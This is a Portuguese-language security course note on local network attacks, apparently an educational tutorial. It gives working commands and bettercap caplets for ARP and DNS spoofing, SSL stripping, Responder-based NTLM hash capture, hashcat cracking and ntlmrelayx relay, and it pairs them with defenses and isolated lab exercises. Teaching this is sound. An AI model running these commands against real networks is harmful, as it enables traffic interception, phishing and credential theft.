



# Ataques em Rede Local

> [!quote] Contexto
> Quando se trata de um teste de intrusão, geralmente não temos acesso físico ao local, pois os alvos estão distantes. Porém, é importante sabermos analisar a segurança de uma rede local.

> [!warning] Atenção com VMs
> Escaneamento de rede local pode não funcionar adequadamente ao utilizar máquinas virtuais. O problema não ocorre quando se usa uma interface de rede separada (modo bridge).

> [!danger] ⚖️ Aviso Legal Obrigatório
> Todos os ataques descritos nesta aula são **exclusivamente para fins educacionais**, realizados em **laboratório próprio** (VMs sob seu controle). Executar qualquer dessas técnicas em redes de terceiros sem autorização expressa configura **crime informático** conforme o **Art. 154-A do Código Penal Brasileiro** (invasão de dispositivo informático), com pena de **detenção de 1 a 4 anos, mais multa**. Jamais execute em redes reais sem contrato de pentest assinado.

---

## 📡 Redes Sem Fio

> [!info] Wireless Security
> Ataques específicos para redes Wi-Fi e Bluetooth.

- [[Ferramentas de redes sem fio (802 11)|Ferramentas de redes sem fio (802.11)]], Aircrack-ng, Kismet, etc.
- [[Bluetooth]], ataques em dispositivos Bluetooth
- [[Captive Portal]], portais cativos e seus bypasses

---

## 🔍 Descoberta de Hosts em Rede Local

> [!tip] Mapeando a Rede
> Primeiro passo: descobrir quais dispositivos estão ativos na rede. Antes de qualquer ataque, o atacante precisa conhecer o terreno.

### Ferramentas Utilizadas

| Ferramenta | Descrição | Sistema |
|------------|-----------|---------|
| `arp-scan` | Rápido, usa protocolo ARP | Linux |
| `netdiscover` | Similar ao arp-scan | Linux |
| `nmap` | Mais completo, multiplataforma | Todos |
| [Zenmap](https://nmap.org/zenmap/) | Interface gráfica do nmap | Windows/Linux |
| `netstat -rn` | Exibe tabela de roteamento local | Todos |

### Exemplos Práticos

**Escaneamento com nmap (ping sweep):**
```bash
nmap -sn 192.168.1.0/24
```

**Escaneamento com nmap (portas + SO):**
```bash
nmap -sS -O 192.168.1.0/24
```

**Escaneamento com arp-scan:**
```bash
arp-scan eth0 10.64.143.75/16
```

**Verificar tabela ARP local (antes e depois de ataques):**
```bash
arp -n
ip neigh show
```

> [!tip] Dica Forense
> Sempre registre a tabela ARP antes de iniciar o lab. O comando `arp -n` mostra o estado legítimo antes da manipulação. Isso servirá como evidência comparativa.

---

## ⚙️ Configuração de VMs

> [!info] Dica para VirtualBox
> Para usar máquinas virtuais em rede local sem adaptador separado, use o modo "Bridge".

![[Recursos/Segurança da informação/Ataques em rede local/ataques-em-rede-local.png|Configuração de rede no VirtualBox]]

### Topologia de Lab Recomendada

Para os exercícios desta aula, você precisa de **3 VMs** na mesma rede em modo bridge ou host-only com roteamento interno:

| VM | Papel | Sistema Sugerido | IP Exemplo |
|----|-------|-----------------|------------|
| Atacante | Executa bettercap/Responder | Kali Linux 2024+ | 192.168.56.10 |
| Vítima A | Gera tráfego (navega, autentica) | Ubuntu 22.04 / Windows 10 | 192.168.56.20 |
| Gateway/Servidor | Roteador/destino do tráfego | pfSense ou VM Linux | 192.168.56.1 |

> [!warning] Isolamento Obrigatório
> Configure as VMs em rede **host-only** ou **internal network** no VirtualBox/VMware. Nunca coloque em bridge com a rede física da escola durante exercícios de ataque.

---

## 🕵️ Ataques Man-in-the-Middle (MITM)

> [!warning] Interceptação de Tráfego
> Ataques onde o atacante se posiciona entre dois dispositivos para interceptar ou modificar comunicações. O atacante recebe TODO o tráfego antes de repassá-lo ao destino legítimo.

### Como o MITM Funciona na LAN



### Posição do Atacante na LAN (ARP Spoofing)



### Técnicas Comuns

- **ARP Spoofing**: envenenar tabela ARP para redirecionar tráfego (detalhado abaixo)
- **DNS Spoofing**: redirecionar consultas DNS para IPs falsos
- **SSL Stripping**: forçar downgrade de HTTPS para HTTP
- **LLMNR/NBT-NS Poisoning**: envenenar resolução de nomes em redes Windows
- **SMB Relay**: capturar e reutilizar autenticações NTLM

### Vídeo de Referência

[📺 How Hackers Use Xerosploit for Advanced MiTM Attacks](https://www.youtube.com/watch?v=C63PPEnFQnc)

---

## 🔀 ARP Spoofing em Profundidade

> [!info] Protocolo ARP
> O ARP (Address Resolution Protocol) mapeia endereços IP para endereços MAC. Ele é **stateless** e **sem autenticação**: qualquer máquina pode enviar um ARP Reply mesmo sem ter recebido um Request. Essa falha de design é a base do ataque.

### Como o ARP Funciona Normalmente

Quando a Vítima quer se comunicar com o Gateway:
1. Vítima envia ARP Request em broadcast: "Quem tem o IP 192.168.56.1?"
2. Gateway responde: "Eu tenho, meu MAC é AA:BB:CC:DD:EE:FF"
3. Vítima salva essa associação em sua **tabela ARP** (cache)
4. Pacotes futuros vão direto ao MAC do Gateway

### Como o Atacante Quebra Isso

O atacante envia **ARP Replies falsos** para a Vítima dizendo "o Gateway está no meu MAC" e para o Gateway dizendo "a Vítima está no meu MAC". A partir desse momento, TODO o tráfego entre os dois passa pelo atacante.

### Ferramentas de ARP Spoofing

| Ferramenta | Linguagem | Ativo? | Observação |
|------------|-----------|--------|------------|
| `bettercap` | Go | Sim (2024+) | Framework completo, recomendado |
| `ettercap` | C | Sim | Clássico, interface ncurses ou GTK |
| `arpspoof` | C | Sim | Parte do dsniff, simples |
| `scapy` | Python | Sim | Flexível, scriptável |

---

### 🛠️ bettercap: Framework MITM Completo

**Bettercap** é o framework de referência atual para ataques MITM em redes locais. Escrito em Go, substitui o antigo MITMf e o Ettercap para a maioria dos cenários.

**Instalação no Kali Linux:**
```bash
sudo apt update && sudo apt install bettercap -y
# Ou compilar do fonte (Go 1.20+):
go install github.com/bettercap/bettercap@latest
```

**Iniciar o bettercap na interface correta:**
```bash
sudo bettercap -iface eth0
```

**Interface interativa do bettercap (comandos básicos):**
```
# Listar hosts na rede
net.probe on
net.show

# Configurar alvo (IP da vítima e IP do gateway)
set arp.spoof.targets 192.168.56.20
set arp.spoof.internal true

# Ativar ARP spoofing
arp.spoof on

# Ativar captura de pacotes
net.sniff on

# Ver pacotes em tempo real (verboso)
set net.sniff.verbose true
```

**Captura de credenciais HTTP em texto claro:**
```bash
# Dentro do bettercap, após arp.spoof on
set net.sniff.regexp .*pass.*|.*user.*|.*login.*
net.sniff on
```

**Caplet: script automático para ARP spoof + sniff:**
```bash
# Criar arquivo mitm.cap:
cat > /tmp/mitm.cap << 'EOF'
net.probe on
sleep 3
set arp.spoof.targets 192.168.56.20
set arp.spoof.internal true
arp.spoof on
net.sniff on
EOF

# Executar o caplet:
sudo bettercap -iface eth0 -caplet /tmp/mitm.cap
```

---

### 🛠️ ettercap: O Clássico

**Ettercap** é uma ferramenta madura com interface ncurses e modo texto. Útil quando o bettercap não está disponível ou para demonstrações visuais.

**ARP Poisoning com ettercap (modo texto):**
```bash
# Envenenar entre vítima e gateway
sudo ettercap -T -q -i eth0 \
  -M arp:remote \
  /192.168.56.20// \
  /192.168.56.1//
```

**Parâmetros importantes:**
- `-T`: modo texto (terminal)
- `-q`: silencioso (menos verbosidade)
- `-M arp:remote`: MITM por ARP, modo remoto (repassa pacotes)
- `/alvo1//` e `/alvo2//`: as duas pontas do ataque

**Filtro com ettercap para capturar senhas:**
```bash
sudo ettercap -T -q -i eth0 \
  -M arp:remote \
  /192.168.56.20// \
  /192.168.56.1// \
  -w /tmp/captura.pcap
```

---

### 🛠️ arpspoof: O Minimalista

**arpspoof** faz apenas uma coisa: envia ARP Replies falsos. Requer habilitar o IP forwarding manualmente.

```bash
# Habilitar forwarding de IP (para não derrubar a conexão da vítima)
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# Envenenar a vítima (dizer que o gateway está no atacante)
sudo arpspoof -i eth0 -t 192.168.56.20 192.168.56.1 &

# Envenenar o gateway (dizer que a vítima está no atacante)
sudo arpspoof -i eth0 -t 192.168.56.1 192.168.56.20 &

# Capturar tráfego com tcpdump ou Wireshark
sudo tcpdump -i eth0 -w /tmp/captura.pcap host 192.168.56.20
```

> [!warning] IP Forwarding é Crítico
> Sem `ip_forward = 1`, a vítima perde conexão com a internet quando o ataque começa. Com ele ativo, o tráfego passa pelo atacante de forma transparente.

---

## 🌐 DNS Spoofing com bettercap

> [!info] DNS Spoofing
> Após estabelecer posição MITM via ARP spoofing, o atacante pode responder a consultas DNS com IPs falsos, redirecionando o navegador da vítima para páginas controladas pelo atacante (phishing, captação de credenciais).

**Configurar DNS spoofing no bettercap:**
```bash
# Dentro do bettercap, após arp.spoof on:

# Redirecionar um domínio específico para IP do atacante
set dns.spoof.domains example.com,*.example.com
set dns.spoof.address 192.168.56.10

# Redirecionar TODOS os domínios (cuidado: alto impacto)
set dns.spoof.all true

# Ativar
dns.spoof on
```

**Usando arquivo de hosts personalizado:**
```bash
# Criar arquivo hosts:
cat > /tmp/fake.hosts << 'EOF'
192.168.56.10  banco.com.br
192.168.56.10  paypal.com
192.168.56.10  login.microsoftonline.com
EOF

set dns.spoof.hosts /tmp/fake.hosts
dns.spoof on
```

### Combinando ARP Spoof + DNS Spoof + SSL Strip

```bash
# Caplet completo para ataque em cadeia:
cat > /tmp/full-mitm.cap << 'EOF'
net.probe on
sleep 3
set arp.spoof.targets 192.168.56.20
set arp.spoof.internal true
set dns.spoof.all true
set dns.spoof.address 192.168.56.10
set http.proxy.sslstrip true
arp.spoof on
dns.spoof on
http.proxy on
net.sniff on
EOF

sudo bettercap -iface eth0 -caplet /tmp/full-mitm.cap
```

> [!warning] Limitação do SSL Strip
> Sites com **HSTS** (HTTP Strict Transport Security) e **HSTS Preloading** resistem ao SSL stripping. O navegador recusa conexão HTTP mesmo que o atacante tente o downgrade. Por isso, alvos modernos (Google, bancos) são protegidos. Isso demonstra a importância do HSTS como controle.

---

## 🪟 LLMNR e NBT-NS Poisoning com Responder

> [!info] O que é LLMNR?
> **LLMNR** (Link-Local Multicast Name Resolution) é um protocolo Windows que resolve nomes de host na rede local quando o DNS falha. **NBT-NS** (NetBIOS Name Service) faz papel similar, mas é mais antigo. Ambos funcionam por **broadcast/multicast** e respondem a qualquer consulta, sem autenticação.
> Quando um usuário Windows digita um caminho de rede errado (ex: `\\SERVIDOR\pasta`), o Windows tenta LLMNR/NBT-NS na LAN. O Responder responde se passando pelo servidor, forçando o cliente a autenticar e **entregando o hash NTLMv2**.

### Por que LLMNR/NBT-NS é Perigoso?

O protocolo é habilitado por padrão no Windows. Um único erro de digitação de UNC path (`\\SEVIDOR` em vez de `\\SERVIDOR`) ou uma entrada de histórico de rede inválida dispara a resolução LLMNR. O atacante não precisa fazer nada além de escutar.



### Ferramenta: Responder

**Responder** é a ferramenta padrão para LLMNR/NBT-NS poisoning. Ela sobe servidores SMB, HTTP, FTP, LDAP falsos e captura hashes automaticamente.

**Instalação (Kali já vem instalado):**
```bash
sudo apt install responder -y
# Ou clonar do GitHub:
git clone https://github.com/lgandx/Responder.git
```

**Iniciar o Responder no modo padrão:**
```bash
sudo responder -I eth0 -wrf
```

**Parâmetros do Responder:**
| Parâmetro | Função |
|-----------|--------|
| `-I eth0` | Interface de rede |
| `-w` | Inicia servidor WPAD (Web Proxy Auto-Discovery) |
| `-r` | Habilita respostas NBT-NS |
| `-f` | Habilita fingerprinting do OS |
| `-v` | Verboso |
| `--lm` | Forçar downgrade para hash LM (mais fraco) |
| `-A` | Modo análise (só escuta, não responde, stealth) |

**Modo stealth (só observar, sem atacar):**
```bash
sudo responder -I eth0 -A
```

**Saída típica quando captura um hash:**
```
[SMB] NTLMv2 Client   : 192.168.56.20
[SMB] NTLMv2 Username : CORP\joao.silva
[SMB] NTLMv2 Hash     : joao.silva::CORP:a1b2c3d4e5f6a1b2:AABBCCDD...
```

**Hashes ficam salvos em:**
```bash
/usr/share/responder/logs/
# ou
~/Responder/logs/
```

### Quebrando o Hash com Hashcat (Offline)

```bash
# Modo 5600 = NTLMv2
hashcat -m 5600 /usr/share/responder/logs/SMB-NTLMv2-*.txt \
  /usr/share/wordlists/rockyou.txt \
  --force

# Verificar resultado:
hashcat -m 5600 /usr/share/responder/logs/SMB-NTLMv2-*.txt \
  /usr/share/wordlists/rockyou.txt \
  --show
```

> [!tip] NTLMv1 vs NTLMv2
> **NTLMv1** é mais fraco e pode ser quebrado por rainbow tables ou pass-the-hash em alguns cenários. **NTLMv2** requer crack offline. Nenhum dos dois pode ser usado diretamente como "pass-the-hash" sem relay, mas ambos podem ser retransmitidos via `ntlmrelayx` para outros serviços na rede.

### NTLM Relay com ntlmrelayx (Avançado)

```bash
# Em vez de quebrar o hash, retransmiti-lo para outro servidor:
# (Responder e ntlmrelayx ao mesmo tempo, desabilitar SMB/HTTP no Responder)

# Editar /etc/responder/Responder.conf:
# SMB = Off
# HTTP = Off

# Iniciar ntlmrelayx apontando para alvo sem SMB signing:
sudo ntlmrelayx.py -tf /tmp/alvos.txt -smb2support

# Iniciar Responder:
sudo responder -I eth0 -wrf
```

---

## 🛡️ Como se Proteger

> [!success] Medidas Defensivas

1. Usar HTTPS sempre que possível
2. Implementar 802.1X na rede
3. Monitorar tráfego ARP anômalo
4. Usar VPN em redes não confiáveis
5. Habilitar HSTS nos servidores web

---

## 🛡️ Defesas Avançadas em Profundidade

> [!success] Arquitetura de Defesa em Camadas
> Nenhuma defesa isolada é suficiente. A proteção real combina controles de switch, políticas de OS e monitoramento contínuo.

### Tabela Geral: Ataque, Ferramenta e Defesa

| Ataque | Ferramenta do Atacante | Defesa Principal | Defesa Complementar |
|--------|----------------------|-----------------|---------------------|
| ARP Spoofing | bettercap, ettercap, arpspoof | Dynamic ARP Inspection (DAI) | DHCP Snooping, monitoramento ARP |
| DNS Spoofing | bettercap dns.spoof | DNSSEC, DNS over HTTPS (DoH) | Filtro de DNS recursivo, RPZ |
| SSL Stripping | bettercap http.proxy | HSTS + HSTS Preloading | Certificados válidos, HPKP |
| LLMNR Poisoning | Responder | Desabilitar LLMNR via GPO | Desabilitar NBT-NS, usar DNS interno |
| NBT-NS Poisoning | Responder | Desabilitar NetBIOS via GPO | Monitoramento de LLMNR/mDNS |
| SMB Relay | ntlmrelayx | SMB Signing obrigatório | LDAP Channel Binding |
| Captura de hash NTLM | Responder + hashcat | Senhas longas e complexas | MFA, Protected Users group |

---

### 🔒 Dynamic ARP Inspection (DAI)

**DAI** é uma funcionalidade de segurança de switches gerenciáveis (Cisco, Juniper, etc.) que inspeciona pacotes ARP e descarta aqueles que não correspondem a um mapeamento legítimo na tabela de DHCP Snooping.

**Como o DAI funciona:**
1. O switch mantém uma **tabela DHCP Snooping**: lista de IPs concedidos por DHCP com o respectivo MAC e porta física.
2. Todo ARP Reply recebido em porta **não-confiável** é validado contra essa tabela.
3. Se o MAC/IP do ARP Reply não bate com a tabela, o pacote é **descartado silenciosamente**.
4. Apenas portas uplink (para outros switches ou roteadores) são marcadas como **confiáveis** (trusted).

**Configuração conceitual em switch Cisco:**
```
! Habilitar DHCP Snooping na VLAN 10
ip dhcp snooping
ip dhcp snooping vlan 10

! Marcar uplink como confiável
interface GigabitEthernet0/1
 ip dhcp snooping trust
 ip arp inspection trust

! Habilitar DAI na VLAN 10
ip arp inspection vlan 10

! Limitar taxa de ARP (proteção contra flood)
interface GigabitEthernet0/2
 ip arp inspection limit rate 100
```

> [!tip] DAI + DHCP Snooping
> DAI depende de DHCP Snooping para funcionar. Se a rede usa IPs estáticos, é necessário criar manualmente entradas ARP estáticas no switch (ARP ACLs) para que o DAI tenha referência. Sem isso, todo tráfego ARP de hosts com IP estático seria descartado.

---

### 🔒 Port Security

**Port Security** limita quantos MACs diferentes podem aparecer em uma porta do switch. Impede que um atacante conecte um hub/switch não gerenciado ou clone MACs.

**Configuração conceitual em switch Cisco:**
```
interface FastEthernet0/3
 switchport mode access
 switchport port-security
 switchport port-security maximum 1
 switchport port-security violation restrict
 switchport port-security mac-address sticky
```

- `maximum 1`: apenas um MAC por porta
- `violation restrict`: descartar frames de MACs desconhecidos e logar
- `sticky`: aprender o primeiro MAC visto e fixá-lo

---

### 🔒 SMB Signing Obrigatório

**SMB Signing** garante que cada mensagem SMB seja assinada criptograficamente. Sem ele, hashes NTLM capturados podem ser **retransmitidos** (relay) para autenticar em outros serviços da rede, mesmo sem quebrar a senha.

**Habilitar SMB Signing via Group Policy:**
```
Computer Configuration > Windows Settings > Security Settings >
Local Policies > Security Options:
  - "Microsoft network client: Digitally sign communications (always)" = Enabled
  - "Microsoft network server: Digitally sign communications (always)" = Enabled
```

**Verificar se SMB Signing está ativo (da máquina atacante):**
```bash
# Usando nmap:
nmap -p 445 --script smb-security-mode 192.168.56.20

# Usando CrackMapExec:
crackmapexec smb 192.168.56.20 --gen-relay-list /tmp/alvos.txt
# Hosts SEM signing aparecem como alvo de relay
```

---

### 🔒 Desabilitar LLMNR e NBT-NS

**Windows via Group Policy:**
```
Computer Configuration > Administrative Templates > Network >
DNS Client > Turn off multicast name resolution = Enabled
```

**Windows via PowerShell (todos os adaptadores):**
```powershell
# Desabilitar NetBIOS sobre TCP/IP
$adapters = Get-WmiObject Win32_NetworkAdapterConfiguration
foreach ($adapter in $adapters) {
    $adapter.SetTcpipNetbios(2)  # 2 = Disable NetBIOS
}
```

**Linux: desabilitar mDNS no systemd-resolved:**
```bash
# Editar /etc/systemd/resolved.conf:
[Resolve]
MulticastDNS=no
LLMNR=no

sudo systemctl restart systemd-resolved
```

**Verificar se LLMNR está ativo (da máquina atacante, com Responder em modo análise):**
```bash
sudo responder -I eth0 -A
# Observar se aparecem queries LLMNR/NBT-NS sem responder a elas
```

---

## 🧪 Atividades Práticas de Lab

> [!example] 🧪 Atividade 1: ARP Spoofing com bettercap entre duas VMs

**Objetivo:** Posicionar-se como MITM entre Vítima (VM2) e Gateway (VM1) e interceptar tráfego HTTP em texto claro.

**Topologia:**
- VM1 (Gateway/Servidor): 192.168.56.1, Ubuntu com nginx servindo página HTTP
- VM2 (Vítima): 192.168.56.20, Ubuntu acessando a página
- VM3 (Atacante): 192.168.56.10, Kali Linux com bettercap

**Passo 1: Preparar o servidor HTTP na VM1**
```bash
# Na VM1 (Gateway):
sudo apt install nginx -y
echo "Credenciais: usuario=admin senha=senha123" > /var/www/html/login.html
sudo systemctl start nginx
```

**Passo 2: Verificar tabela ARP inicial na VM2 (Vítima)**
```bash
# Na VM2 (antes do ataque):
arp -n
# Registre o MAC do gateway (.1) - deve ser o MAC real da VM1
```

**Passo 3: Executar o ataque na VM3 (Atacante)**
```bash
# Na VM3:
sudo bettercap -iface eth0

# Dentro do bettercap:
net.probe on
sleep 5
net.show
# Confirme que vítima (.20) e gateway (.1) aparecem na lista

set arp.spoof.targets 192.168.56.20
set arp.spoof.internal true
arp.spoof on
net.sniff on
set net.sniff.verbose true
```

**Passo 4: Verificar envenenamento na VM2 (Vítima)**
```bash
# Na VM2 (durante o ataque):
arp -n
# O MAC do gateway (.1) agora deve ser o MAC do atacante (VM3)
# PROVA DO ATAQUE: dois IPs diferentes com o mesmo MAC (do atacante)
```

**Passo 5: Gerar tráfego na VM2 e capturar na VM3**
```bash
# Na VM2:
curl http://192.168.56.1/login.html

# Na VM3 (bettercap):
# Você verá o conteúdo da página e headers HTTP interceptados
# Prova: "Credenciais: usuario=admin senha=senha123" aparece no log
```

**Passo 6: Capturar com tcpdump (prova adicional)**
```bash
# Na VM3 (terminal separado):
sudo tcpdump -i eth0 -A -s0 host 192.168.56.20 and port 80
# Você verá o conteúdo HTTP em texto claro
```

**Evidência esperada:** O tcpdump/bettercap mostra o conteúdo da página HTML passando pelo atacante, confirmando posição MITM. A tabela ARP da vítima mostra o MAC do atacante no lugar do gateway.

---

> [!example] 🧪 Atividade 2: Captura de Hash NTLM com Responder (LLMNR Poisoning)

**Objetivo:** Capturar um hash NTLMv2 de uma máquina Windows vítima usando LLMNR poisoning e demonstrar a fragilidade da resolução de nomes por broadcast.

**Topologia:**
- VM1 (Atacante): 192.168.56.10, Kali Linux com Responder
- VM2 (Vítima): 192.168.56.20, Windows 10 (LLMNR ativo por padrão)

**Passo 1: Iniciar o Responder na VM1**
```bash
# Na VM1 (Kali):
sudo responder -I eth0 -wrf -v
# Aguardar na tela "Listening for events..."
```

**Passo 2: Provocar resolução LLMNR na VM2 (Vítima Windows)**
```powershell
# Na VM2 (Windows), abrir PowerShell ou Explorer:
# Digitar no campo de endereço do Explorer:
\\SERVIDORFALSO\pasta
# Ou via PowerShell:
net use \\SERVIDORFALSO\pasta
# O Windows tenta DNS, falha, e cai para LLMNR
```

**Passo 3: Observar o hash capturado na VM1**
```
# Na VM1, o Responder exibe algo como:
[SMB] NTLMv2-SSP Client   : 192.168.56.20
[SMB] NTLMv2-SSP Username : DESKTOP-ABC123\aluno
[SMB] NTLMv2-SSP Hash     : aluno::DESKTOP-ABC123:a1b2c3...:0101...
[SMB] Handled              : 192.168.56.20
```

**Passo 4: Localizar o arquivo de hashes**
```bash
# Na VM1:
ls /usr/share/responder/logs/
cat /usr/share/responder/logs/SMB-NTLMv2-SSP-192.168.56.20.txt
```

**Passo 5: Tentar quebrar o hash offline (opcional, se tiver GPU)**
```bash
hashcat -m 5600 /usr/share/responder/logs/SMB-NTLMv2-*.txt \
  /usr/share/wordlists/rockyou.txt \
  --force --status

# Resultado esperado (se senha fraca):
aluno::DESKTOP-ABC123:...:senha123
```

**Evidência esperada:** O arquivo de log do Responder contém o hash NTLMv2 do usuário da VM Windows. Isso comprova que um atacante passivo na rede pode capturar credenciais sem nenhuma interação direta com a vítima.

---

> [!example] 🧪 Atividade 3: Aplicando a Defesa (DAI e Desabilitar LLMNR) e Verificando que o Ataque Falha

**Objetivo:** Implementar controles defensivos e confirmar que os ataques das atividades anteriores são bloqueados.

**Parte A: Defesa contra LLMNR Poisoning (Windows)**

```powershell
# Na VM2 (Windows), abrir PowerShell como Administrador:

# Desabilitar LLMNR via registro:
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\DNSClient" `
  -Name "EnableMulticast" -Value 0 -Type DWord

# Desabilitar NetBIOS em todos os adaptadores:
$adapters = Get-WmiObject -Class Win32_NetworkAdapterConfiguration -Filter "IPEnabled=TRUE"
foreach ($adapter in $adapters) {
    $adapter.SetTcpipNetbios(2)
}

# Verificar:
Get-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\DNSClient" -Name EnableMulticast
```

**Teste após defesa:**
```bash
# Na VM1, reiniciar o Responder:
sudo responder -I eth0 -wrf -v

# Na VM2, tentar novamente:
net use \\SERVIDORFALSO\pasta

# Resultado esperado no Responder: NENHUMA captura de hash
# A VM2 não emite mais queries LLMNR, portanto o Responder não tem o que envenenar
```

**Parte B: Defesa conceitual DAI (simulada em firewall de host)**

Em um ambiente de lab sem switch gerenciável, simule o DAI instalando `arpwatch` na VM3 (atacante) e monitorando mudanças na tabela ARP da VM2:

```bash
# Na VM2 (Vítima Ubuntu), instalar arpwatch:
sudo apt install arpwatch -y
sudo arpwatch -i eth0 -f /var/lib/arpwatch/arp.dat

# Iniciar o ataque da VM3 e observar os logs:
sudo journalctl -fu arpwatch

# Saída esperada durante o ataque:
# changed ethernet address: 192.168.56.1 AA:BB:CC:DD:EE:FF (antigo: 11:22:33:44:55:66)
# ALERTA: mudança de MAC detectada para o gateway!
```

**Em switch Cisco real (conceitual para prova):**
```
show ip arp inspection vlan 10
# Mostra pacotes válidos e inválidos (dropped)

show ip arp inspection statistics
# Forwarded: X | Dropped: Y
# Se Y > 0 durante o ataque, o DAI está funcionando
```

**Evidência esperada:** Com LLMNR desabilitado, o Responder não captura nenhum hash. Com arpwatch monitorando, cada tentativa de ARP spoofing gera um alerta de mudança de MAC. Esses logs são a prova de que o controle está ativo.

---

> [!note] 📚 Fontes (2026)

- [Bettercap Guide 2025: ARP & DNS Spoofing (MiTM Attack)](https://nekr0ff.com/mitm-arp-spoofing-with-bettercap-full-tutorial/)
- [Módulo arp.spoof, documentação oficial bettercap](https://www.bettercap.org/modules/ethernet/spoofers/arpspoof/)
- [Módulo dns.spoof, documentação oficial bettercap](https://www.bettercap.org/modules/ethernet/spoofers/dnsspoof/)
- [LLMNR and NBT-NS Poisoning Prevention Guide (2026)](https://www.decryptiondigest.com/blog/llmnr-nbt-ns-poisoning-prevention-active-directory-guide)
- [LLMNR/NBT-NS Poisoning and SMB Relay, T1557.001, Atomic Red Team](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1557.001/T1557.001.md)
- [A Detailed Guide on Responder (LLMNR Poisoning), Hacking Articles](https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/)
- [LLMNR, NBT-NS, mDNS Spoofing: Attack & Defense, RedFoxSec](https://www.redfoxsec.com/blog/llmnr-nbt-ns-and-mdns-spoofing-a-practical-guide-to-name-resolution-poisoning)
- [Dynamic ARP Inspection (DAI) e DHCP Snooping, Medium](https://medium.com/@0xEmirOzturk/dynamic-arp-inspection-dai-and-dhcp-snooping-combined-protection-against-man-in-the-middle-bc1d08af8d2a)
- [Preventing ARP Attacks Using Dynamic ARP Inspection, INE Labs](http://labs.ine.com/workbook/view/security-technology-labs/task/preventing-arp-spoofing-using-dai-dynamic-arp-inspection-Mjcx)
- [Mastering Local MITM: ARP Spoofing & HSTS Hijack with Bettercap](https://medium.com/@syedmohathashimali93/mastering-local-mitm-arp-spoofing-hsts-hijack-with-bettercap-8ade550a2666)
- [Ettercap Cheat Sheet, Comparitech](https://www.comparitech.com/net-admin/ettercap-cheat-sheet/)
